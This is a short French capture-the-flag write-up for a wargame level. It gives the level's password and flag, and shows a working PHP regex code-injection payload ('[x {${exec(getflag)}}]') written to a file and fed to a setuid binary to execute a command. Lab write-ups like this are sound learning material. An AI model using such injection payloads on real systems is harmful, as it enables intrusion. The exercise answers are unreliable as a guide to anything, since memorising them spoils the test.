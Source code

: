 # level 06

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
viuaaale9huek52boumoomioc
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

On trouve un binaire et un fichier php

Le fichier php print le paramètre reçu si il est bien formaté.

En s’aidant de regex101, on comprend que le paramètre doit commencer par [x et finir par ].
Comme avant, on crée le fichier, et on l’envoie dans ./level06
```sh
echo '[x {${exec(getflag)}}]' > /tmp/wow & ./level06 /tmp/wow
```
Ce qui renvoit une erreur (initialement pas prévu, mais renvoie le flag)
```php
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
[1]+  Done                    echo '[x {${exec(getflag)}}]' > /tmp/wow
```

```cmd
su level07
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
wiok45aaoguiboiki2tuin6ub
```